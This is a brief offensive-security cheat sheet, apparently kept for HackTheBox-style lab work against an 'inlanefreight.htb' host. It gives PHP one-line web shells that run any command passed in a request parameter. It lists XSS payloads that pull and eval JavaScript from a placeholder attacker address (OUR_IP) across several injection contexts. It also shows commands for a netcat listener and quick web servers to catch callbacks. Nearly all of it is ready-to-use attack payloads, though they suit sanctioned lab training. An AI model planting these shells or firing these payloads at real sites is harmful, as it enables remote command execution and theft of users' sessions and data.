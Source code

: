 # WEBSHELL
```php
<?php system($_REQUEST['cmd']); ?>
```

```php
<?php system($_GET["cmd"]); ?>
```
# XSS Testing Payloads
```xss
<script>alert(window.origin)</script>
```

```js
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
# /etc/hosts
```shell
sudo sh -c "echo '<IP> inlanefreight.htb' >> /etc/hosts" 
```
# PHP Webserver
```php
sudo php -S 0.0.0.0:8000
```
# NETCAT LISTENER
```netcat
sudo nc -nlvp <PORT>
```
# PYTHON WEBSERVER
```python
python3 -m http.server 8001
```
